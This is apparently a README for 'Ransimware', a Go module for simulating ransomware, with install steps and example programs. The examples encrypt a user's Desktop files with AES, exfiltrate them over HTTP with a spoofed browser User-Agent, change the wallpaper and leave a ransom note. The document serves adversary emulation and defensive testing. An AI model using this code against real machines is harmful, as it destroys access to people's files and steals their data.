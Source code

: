 # Ransimware

<a href="https://www.buymeacoffee.com/mjwhitta">🍪 Buy me a cookie</a>

[![Go Report Card](https://goreportcard.com/badge/gitlab.com/mjwhitta/ransimware)](https://goreportcard.com/report/gitlab.com/mjwhitta/ransimware)

## What is this?

This Go module allows you to simulate ransomware.

## How to install

Open a terminal and run the following:

```
$ go get -u gitlab.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.WallpaperNotify(
            "C:\\Windows\\Temp\\ransom.png",
            rw.DefaultPNG,
        )()

        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            []string{"This is a ransomware simulation."},
        )()

        return nil
    }

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://gitlab.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - DNS exfil
    - FTP exfil
